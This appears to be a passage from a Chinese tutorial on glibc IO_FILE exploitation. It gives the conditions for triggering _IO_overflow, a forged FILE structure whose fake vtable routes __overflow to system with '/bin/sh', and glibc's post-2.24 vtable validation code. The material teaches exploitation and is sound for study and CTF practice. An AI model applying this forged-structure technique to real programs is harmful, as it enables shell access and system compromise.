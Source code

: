 从上面代码可以看到，要执行`_IO_overflow(fp)`，伪造的IO_FILE需要满足以下条件：

1. `fp->_mode<=0`
2. `fp->_IO_write_ptr > fp->_IO_write_base`

而_IO_flush_all_lockp 不需要攻击者手动调用，在一些情况下这个函数会被系统调用：

1. 当 libc检测到**内存错误**， 执行 abort 流程时（可以通过malloc等函数触发）（glibc-2.26删除）
2. 当执行 exit 函数时
3. 当执行流从 main 函数返回时

```c
._chain = chunk_addr //伪造_chain
chunk_addr
{
  file = {
    _flags = "/bin/sh\x00", //对应此结构体首地址(fp)
    _IO_read_ptr = 0x0,
    _IO_read_end = 0x0,
    _IO_read_base = 0x0,
    _IO_write_base = 0x0,
    _IO_write_ptr = 0x1,
      ...
      _mode = 0x0, //一般不用特意设置
      _unused2 = '\000' <repeats 19 times>
  },
  vtable = heap_addr
}
heap_addr
{
  __dummy = 0x0,
  __dummy2 = 0x0,
  __finish = 0x0,
  __overflow = system_addr,
    ...
}
```



## glibc2.24后的IO_FILE利用

从glibc2.24开始，加入了对vtable的检查，会对vtable的合法性进行检查。glibc中有一段完整的内存存放着各个vtable，`__start___libc_IO_vtables`和`__stop___libc_IO_vtables` 分别指向第一个和最后一个vtable，只有其中的vtable和外部的合法vtable可以通过检查正常使用，否则会引发abort。

```c
/* Check if unknown vtable pointers are permitted; otherwise,
   terminate the process.  */
void _IO_vtable_check (void) attribute_hidden;
/* Perform vtable pointer validation.  If validation fails, terminate
   the process.  */
static inline const struct _IO_jump_t *IO_validate_vtable (const struct _IO_jump_t *vtable)
{
  /* Fast path: The vtable pointer is within the __libc_IO_vtables
     section.  */
  uintptr_t section_length = __stop___libc_IO_vtables - __start___libc_IO_vtables;
  uintptr_t ptr = (uintptr_t) vtable;
  uintptr_t offset = ptr - (uintptr_t) __start___libc_IO_vtables;
  if (__glibc_unlikely (offset >= section_length))
    /* The vtable pointer is not in the expected section.  Use the
       slow path, which will terminate the process if necessary.  */
    _IO_vtable_check ();
  return vtable;
}
```
